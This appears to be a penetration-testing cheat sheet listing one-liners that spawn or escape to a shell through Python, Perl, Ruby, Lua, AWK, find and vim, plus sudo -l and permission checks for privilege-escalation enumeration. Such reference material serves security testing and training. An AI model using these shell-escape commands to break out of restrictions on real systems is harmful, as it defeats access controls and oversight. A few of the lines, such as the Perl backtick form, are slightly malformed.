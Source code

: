 **Python**
```python
python -c 'import pty; pty.spawn("/bin/sh")'
```


**/bin/sh -i**
```bash
/bin/sh -i
```

**Perl**
```perl
perl -e `exec "/bin/sh";`
```

The below should be run from a script

```perl
perl: exec "/bin/sh";
```

**Ruby**...run from a script
```bash
ruby: exec "/bin/sh"
```

**Lua**...run from a script
```bash
lua: os.execute('/bin/sh')
```

**AWK**
```bash
awk 'BEGIN {system("/bin/sh")}'
```

**Find**
```bash
find / -name /nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

**Using Exec to Launch a Shell**
```bash
find . -exec /bin/sh \; -quit
```

**VIM to Shell**
```bash
vim -c ':!/bin/sh'
```

**VIM Escape**
```bash
vim
:set shell=/bin/sh
:shell
```

**Permissions**
```bash
ls -la <path/to/fileorbinary>
```

**Sudo -l**
```bash
sudo -l
```




